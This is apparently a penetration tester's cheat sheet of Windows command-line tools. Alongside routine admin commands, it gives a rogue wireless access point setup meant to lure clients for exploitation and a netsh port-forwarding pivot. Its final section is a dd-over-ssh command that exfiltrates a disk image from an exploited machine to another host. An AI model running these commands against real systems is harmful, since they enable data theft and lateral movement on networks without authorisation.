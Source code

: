 # Windows CMD Line Tools #

## Get Windows Product Key

```CMD
wmic path SoftwareLicensingService get OA3xOriginalProductKey
```

## Get Public IP Address

```CMD
	curl -4 icanhazip.com
```
## Configure a Windows machine as a WPA2-PSK Access Point ## 

### Usage scenario: Share a Windows machine’s Internet access with other systems wirelessly, or use a Windows machine to attract wireless clients into joining it for exploitation purposes

```CMD
	netsh wlan set hostednetwork mode=allow ssid=<MYSSID>
	key=<MYPASSWORD> && netsh wlan start hostednetwork
```

## Configure a TCP port forwarding relay from IPv4 to IPv6 (v4tov4, v6tov6, and v6tov4 also supported). ##

### Usage scenario: Pivot a TCP connection through a Windows machine using built-in functionality, converting IPv4 to IPv6 as needed. ###

```CMD
	netsh interface portproxy add v4tov6 listenport=<LPORT>
	listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
```

## Get a list of TCP and UDP activity every 1 second. ##

### Usage scenario: Look for a connection coming in from a specific IP
address or port to determine when the connection occurs, within 1 second.

```CMD
	netstat -naob 1 | find "<IPADDR or PORT>"
```

## Get a list of all available attributes of all running processes. ##

```CMD
	wmic process list full
```

## Get a list of services running inside of each process. ##

```CMD
	tasklist /svc
```

## Encrypted Data Exfiltration

### Exfiltrate the contents of an image via SSH to another machine, compressing (-C) the content to speed up transfer. Usage scenario: Upon exploiting a machine with a small file system or particularly interesting partition, move that partition to the pen tester’s machine, compressing and encrypting data using SSH.

	dd if=/dev/rdisk0s1s2
	bs=65536 conv=noerror,sync
	| ssh -C user@10.10.10.10
	"cat >/tmp/image.dd"

